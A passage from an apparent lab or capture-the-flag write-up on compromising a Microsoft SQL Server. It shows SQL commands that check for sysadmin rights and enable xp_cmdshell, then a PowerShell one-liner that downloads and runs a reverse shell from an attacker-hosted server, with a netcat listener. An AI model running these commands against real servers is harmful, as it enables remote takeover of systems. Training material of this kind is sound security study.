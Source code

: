 ![writeup.exploitation.steps.1.1](./screenshot04.png)  

2\. We find that the user has `sysadmin` access (highest access level on SQL server) using the `IS_SRVROLEMEMBER` function. This allows us to enable `xp_cmdshell` to gain command execution:  
``` {.python .numberLines}
SELECT IS_SRVROLEMEMBER('sysadmin')

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

```

3\. Let's run the `whoami` command using the `xp_cmdshell` method and check our current privileges. We find that our current user `sql_svc` lacks `Administrator` access on the system:  
``` {.python .numberLines}
xp_cmdshell "whoami"

```

![writeup.exploitation.steps.3.1](./screenshot05.png)  

4\. Let's deploy a Powershell reverse shell on the system using `xp_cmdshell` to gain interactive access on the system:  
``` {.python .numberLines}
type shell.ps1
  xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.33/shell.ps1\");"
python3 -m http.server 80
ufw allow from 10.10.10.27 proto tcp to any port 80,443
nc -nlvp 443

```
